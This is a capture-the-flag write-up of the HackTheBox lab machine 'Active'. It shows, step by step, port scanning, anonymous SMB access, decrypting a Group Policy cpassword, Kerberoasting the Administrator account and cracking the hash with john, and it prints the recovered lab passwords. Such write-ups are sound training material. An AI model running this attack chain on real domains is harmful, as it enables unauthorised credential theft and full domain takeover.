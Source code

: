 ```
sudo nmap -sS -sV -p- 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.034s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-04 17:23:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49173/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

first things first we see the domain so lets add it:
`echo "10.10.10.100 active.htb" | sudo tee -a /etc/hosts`

next lets try smbclient:
`smbclient -L //active.htb/ -N`

easy money:
```
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
```

lets check each share to see if anonymous has access:
`smbclient \\\\active.htb\\<sharename> -N`

Replication i am able to get into...

I look in all dirs and not much sticks out but policies:
```
cd Policies
recurse ON
prompt OFF
mget *
```

all the way in one {3....} policy under machine/preferences/ i find a group.xml file:
```
cat Groups.xml  
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

look like user:
active.htb\SVC_TGS
and encrypted pass:
`edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

so creds are:
```
Username: active.htb\SVC_TGS  
Password: GPPstillStandingStrong2k18
```

lets log back into smb and see if we can get user flag on desktop :D
`smbclient -U 'active.htb/SVC_TGS' //10.10.10.100/Users`

and i am in:
```
smb: \> ls
  .                                  DR        0  Sat Jul 21 10:39:20 2018
  ..                                 DR        0  Sat Jul 21 10:39:20 2018
  Administrator                       D        0  Mon Jul 16 06:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 01:06:44 2009
  Default                           DHR        0  Tue Jul 14 02:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 01:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:57:55 2009
  Public                             DR        0  Tue Jul 14 00:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 11:16:32 2018
```

on SVC_TGS desktop there she is.. user.txt
`mget user.txt`

on kali:
cat user.txt:
`ea7041ee397acc******`

---
### Prive Esc

instantly run:
```
impacket-GetUserSPNs 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -outputfile hash.txt -request

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2025-08-04 13:08:44.634595 
```

We used this because:

- We had **valid domain credentials** for a user (`SVC_TGS`).
    
- That user had enough permissions to **query Active Directory** for service accounts.
    
- We suspected there might be **Kerberoastable accounts** (i.e., accounts that have SPNs set).
    
- We were hoping one of those service accounts might be **privileged** (like `Administrator`).

so 
- When an SPN is **set** on a user account (usually a service account), the **Kerberos Ticket-Granting Service (TGS)** encrypts the service ticket using the **NTLM hash of that account**.
    
- If the password is weak, you can **brute-force the hash offline**.

so we have the hash.txt, lets try to crack it with john:
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs
```

complete!

```
john hash.txt --show

?:Ticketmaster1968

1 password hash cracked, 0 left
```

`Administrator:Ticketmaster1968`

now we have his creds!

once again lets just auth via smbclient and get root.txt off of admins desktop:
`smbclient -U 'active.htb/Administrator' //10.10.10.100/Users`

password is successfull

grab root.txt out of admins desktop:
`mget root.txt`

`cat root.txt `                           
`02b07faf9d6a08*******`

PWNED!
